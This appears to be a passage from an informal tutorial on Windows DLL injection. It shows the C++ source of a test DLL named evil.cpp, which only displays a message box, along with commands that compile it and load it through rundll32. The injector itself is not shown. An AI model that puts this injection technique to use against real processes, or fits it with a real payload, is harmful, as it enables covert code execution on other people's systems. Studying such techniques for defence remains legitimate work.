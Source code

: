 **c prus plus, wtf's t1m, I thought we wuz gonna learn teh G0L4ngz...**  

## The first piece of kit that we need is a proper DLL. I like this one a lot, its soooo cute! uWu  

- evil.cpp  

```cpp  
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```  

## Let's compile teh dll...  

```  
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```  

## The dll should have compiled. place the dll in the root of the windows drive. The skript is expecting c:\evil.dll  

**Let's test the DLL...**  

```  
rundll32.exe c:\\evil.dll,DllMain
```  
